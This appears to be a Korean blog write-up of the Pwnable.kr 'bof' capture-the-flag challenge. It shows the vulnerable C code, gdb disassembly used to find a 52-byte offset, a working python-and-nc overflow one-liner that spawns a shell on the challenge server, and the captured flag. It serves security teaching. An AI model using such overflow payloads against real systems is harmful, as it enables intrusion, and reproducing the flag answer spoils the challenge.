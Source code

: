 ```yaml
---
layout: post
title: ! "[Pwnable.kr] bof"
categories: [Pwnable.kr]
excerpt: " "
comments: true
share: true
tags:
  - Pwnable.kr
  - bof
---
```


![](/assets/posts/pwnkr/bof.png)

이름만 봐도 알 수 있는 buffer overflow 문제!
코드는 다음과 같다.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}

int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

gets함수 부분에 주석으로 smash me!가 있는걸 보니 gets 함수의 취약점을 이용한 bof인 듯 하다.
main에서 0xdeadbeef 값을 func에 넘겨주고 함수가 실행되는데 `key = 0xdeadbeef` 이고
user로 부터 변수 overflowme를 받은 후 `key가 0xcafebabe 과 일치할 때` 쉘을 실행시킨다.
그럼 어떻게 해야될까 gdb로 한 번 봐 보자

```
mitny@argos-edu:~/pwnable$ gdb -q bof
Reading symbols from bof...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x0000068a <+0>:	push   ebp
   0x0000068b <+1>:	mov    ebp,esp
   0x0000068d <+3>:	and    esp,0xfffffff0
   0x00000690 <+6>:	sub    esp,0x10
   0x00000693 <+9>:	mov    DWORD PTR [esp],0xdeadbeef
   0x0000069a <+16>:	call   0x62c < func>
   0x0000069f <+21>:	mov    eax,0x0
   0x000006a4 <+26>:	leave  
   0x000006a5 <+27>:	ret    
End of assembler dump.
(gdb) disas func
Dump of assembler code for function func:
   0x0000062c <+0>:	push   ebp
   0x0000062d <+1>:	mov    ebp,esp
   0x0000062f <+3>:	sub    esp,0x48
   0x00000632 <+6>:	mov    eax,gs:0x14
   0x00000638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:	xor    eax,eax
   0x0000063d <+17>:	mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:	call   0x645 < func+25>
   0x00000649 <+29>:	lea    eax,[ebp-0x2c]
   0x0000064c <+32>:	mov    DWORD PTR [esp],eax
   0x0000064f <+35>:	call   0x650 < func+36>
   0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:	jne    0x66b < func+63>
   0x0000065d <+49>:	mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:	call   0x665 < func+57>
   0x00000669 <+61>:	jmp    0x677 < func+75>
   0x0000066b <+63>:	mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:	call   0x673 < func+71>
   0x00000677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:	je     0x688 < func+92>
   0x00000683 <+87>:	call   0x684 < func+88>
   0x00000688 <+92>:	leave  
   0x00000689 <+93>:	ret    
End of assembler dump.
```
`0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe `
이 부분에서 ebp+0x8 에 있는 값과 0xcafebabe 를 비교해서 
일치하지 않으면 func+63 으로 jump, 일치하면 func+75로 jump를 하게 되는데

[ebp-0x2c] 와 [ebp+0x8] 사이의 거리는 52!
즉, 52바이트 만큼 다른 문자를 채워넣고 0xcafebabe 를 넣어 주면 된다.

`(python -c 'print "A"*52+"\xbe\xba\xfe\xca"'; cat) |nc pwnable.kr 9000` 를 해주면
![](/assets/posts/pwnkr/bof_flag.png)

flag가 뜬다!

`daddy, I just pwned a buFFer :)`
